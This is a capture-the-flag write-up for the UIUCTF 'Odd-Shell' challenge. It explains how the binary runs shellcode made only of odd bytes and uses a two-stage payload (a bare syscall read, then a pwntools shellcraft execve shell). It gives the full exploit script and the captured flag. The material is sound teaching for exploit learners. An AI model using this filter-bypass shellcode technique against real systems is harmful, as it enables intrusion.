


# Odd-Shell - 107 pts
For this challenge you are given a netcat command, a binary executable './chal', a Dockerfile, and an nsjail.cfg

The purposes of each of these are as follows:

- The provided binary executable, is the same binary running on the ctf's server which you should understand and exploit locally before performing the exploit against the remote instance
- The provided netcat command connects you to a remote instance of the challenge binary running on the ctf's servers, which you are expected to exploit in order to get the flag
- The Dockerfile and nsjail.cfg are there to provide you with information on the environment in which the challenge is running in (This is good to look at in many cases but was not very relevant to solving this challenge)

## Step 1: Understand the process 
- - -
When trying to understand how to exploit a binary, the first things to figure out are: what kinds of inputs it takes and what the win condition is (i.e. how do I capture the flag?)

### Running the process
- - -
Running the process it becomes pretty clear this challenge prompts for some input but it isn't immediately clear what it expects

Sending it a bunch of 'B's results in the ouput "Invalid Character"
```
zolutal@Ubuntu:~/ctf/uiuctf/odd-shell$ ./chal
Display your oddities:
BBBBBBBBBBBB
Invalid Character
```
Sending it a bunch of 'A's results in a Segmentation Fault
```
zolutal@Ubuntu:~/ctf/uiuctf/odd-shell$ ./chal
Display your oddities:
AAAAAAAAAAAA
Segmentation fault
```
Strange... One might even call it odd...

### Static Analysis
- - -

Time to look closer at this binary:

I use Binary Ninja to statically analyze binaries just out of preference for the UI, but all you really need is any disassembler/decompiler for this challenge

Decompilation of the main function:


The first thing I recognize is the string "Display your oddities:" that is printed whenever the challenge is run

The next line is an mmap instruction, which is allocating 0x1000 bytes of memory at address 0x123412340000 and is followed by a check to make sure the mmap succeeded 

After that is an 0x800 byte read into rax, which holds the address of the mmaped memory, and a conditional to check if the last byte of what was read is a newline character (0xa) and replace it with a null byte if it was, it also sets some

Next up is an infinite loop with two conditions, the first condition calls whatever instructions are at rax (the address of our input which was read into the mmapped allocation) and the second which breaks from the loop

The loop also seems to increment a counter variable at the end of each iteration

Based on this I went ahead and renamed some of the variables to make the decompilation more readable:



Passing the first condition will execute whatever instructions we sent the process during the read, so we want to send shellcode and pass this check

Breaking from the loop results in puts("Invalid Character") and exit(-1), which is pretty clearly not what we want

So how do we make sure we don't exit the loop and can call our shellcode?

For the first condition - we need the counter to be greater than or equal to the length of our shellcode

For the second condition - in order to not exit the loop `*(alloc + counter) & 1 ` needs to *not* equal 0

What this means is that the loop is iterating through each byte in the allocation and checking if that byte bitwise anded with 1 is equal to zero and exiting if it is

So this loop can be represented by the following code:
```python
counter = 0
while True:
    if counter >= input_length:
        shellcode_alloc()
    if (shellcode_alloc[counter] & 1) == 0:
        break
    counter += 1
```

Based on this we just need every byte of our shellcode to have a 1 in the last bit, meaning each byte of the shellcode will have to be odd

## Step 2: Exploitation
- - -

So we know what input we need to give this process, and based on the fact that the process isn't already reading the flag into memory anywhere (and the name of the challenge) our goal is to get a shell if possible

### Strategy
- - -
Crafting shellcode to give a shell that only uses odd bytes sounds tedious and I'm lazy, and I know a common technique for shellcoding is to have two stages of payload, the first which performs a read from stdin to receive the second stage, and the second stage which will give us a shell, luckily this is possible because the allocation for our shellcode has write permissions so we can write and overwrite whatever memory we want in that allocation within our shellcode

The purpose of this is to dodge the input restrictions from the process, rather than having to get a shell with only odd bytes, we only have to make a read syscall with odd bytes, which is significantly easier!

Something that is often good to look at when shellcoding with restrictions is what you have access to in the program state your shellcode will run in, specifically registers and memory

To look at this I use gdb and break at the call to the shellcode then step into the call to reach the program state that the shellcode will execute in and view the values of the registers
```python
zolutal@Ubuntu:~/ctf/uiuctf/odd-shell$ gdb ./chal
(gdb) b *0x555555555326     # The call to the shellcode allocation
Breakpoint 1 at 0x555555555326
(gdb) r     # run the program
Starting program: /home/zolutal/ctf/uiuctf/odd-shell/chal
...
Display your oddities:
a
Breakpoint 1, 0x0000555555555326 in main () # breakpoint reached
(gdb) si    # step into the call to the shellcode allocation
0x0000123412340000 in ?? ()
(gdb) i r   # 'info registers', displays the contents of all registers
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7e9e992      140737352690066
rdx            0x123412340000      20014852997120
rsi            0x123412340000      20014852997120
rdi            0x0                 0
rbp            0x7fffffffdde0      0x7fffffffdde0
rsp            0x7fffffffddb8      0x7fffffffddb8
r8             0xffffffff          4294967295
r9             0x0                 0
r10            0x32                50
r11            0x246               582
r12            0x7fffffffdef8      140737488346872
r13            0x5555555551c9      93824992235977
r14            0x0                 0
r15            0x7ffff7ffd040      140737354125376
rip            0x123412340000      0x123412340000
...
```
Looking at the registers and thinking about how I could do a read syscall with only odd bytes, I realized the registers are already set up perfectly for a read syscall

read(fd, addr, length)
- syscall number => rax = 0 (read)
- fd => rdi = 0 (stdin)
- addr => rsi = 0x123412340000 (the start of the shellcode allocation)
- length => rdx = 0x123412340000 (a really big number of bytes to read)

This is great! I don't even need to bother setting register values for my read syscall, I just need to execute the syscall instruction

And what do you know, the syscall instruction's bytes are 0xf and 0x5 which are both odd numbers

So to bypass the odd byte restriction on the rest of my shellcode all I have to do is send the syscall instruction's bytes: \0x0f\0x05 which will perform a read into the start of the shellcode allocation, and allow me to send a second shellcode payload without the odd byte restrictions imposed by the challenge

### Writing the Exploit

- - -

I will be using the python pwntools package to write this exploit because it makes process interaction painless and helps with creating shellcode payloads

First I setup the file:
```python
from pwn import *

context.arch = "amd64"
```
Setting context.arch is important for pwntools assembler and shellcode functions

Now I create the two payloads:
```python
stage1 = asm("syscall")
stage2 = asm("nop;" * 2 + shellcraft.sh())
```
asm() is a function from pwntools which takes a string of assembly and returns assembled bytes

I assemble the syscall for the read instruction in stage 1

For stage 2 I use pwntools' shellcraft module to get an execve("/bin/sh", [], []) payload

Importantly, since the syscall read I am using to send this payload has a pointer to the start of the allocation and the instruction pointer after the syscall finishes will be 2 bytes after the start of the allocation I need to pad my shellcode with some data, so I added two nops as filler 

Now I can start the process using pwntools' process (wrapper for the python subprocess module)
```python
p = process("./chal")
```
And send my shellcodes to the challenge
```python
p.sendline(stage1)
p.clean()
p.sendline(stage2)
```
Note the p.clean(), if both stages of the payload are sent one after the other without any delay then the payloads may end up be received by the process as a single payload, which would cause the stage2 payload to be be subject to the odd bytes restrictions 

Calling clean() seems to add enough delay to prevent this but it could be substituted for a sleep 

All that is left now is to use the shell we just created
```python
p.interactive()
```
And substitute the local process for a remote process
```python
p = remote("odd-shell.chal.uiuc.tf", 1337)
```

Putting it all together:
```python
from pwn import *

context.arch = "amd64"

stage1 = asm("syscall")
stage2 = asm("nop;" * 2 + shellcraft.sh())

p = remote("odd-shell.chal.uiuc.tf", 1337)

p.sendline(stage1)
p.clean()
p.sendline(stage2)

p.interactive()
```
Running the script and cat-ing the flag:
```
zolutal@Ubuntu:~/ctf/ctf-writeups/2022/uiuctf/odd-shell$ python x.py
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
Display your oddities:
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
```

Thank you!
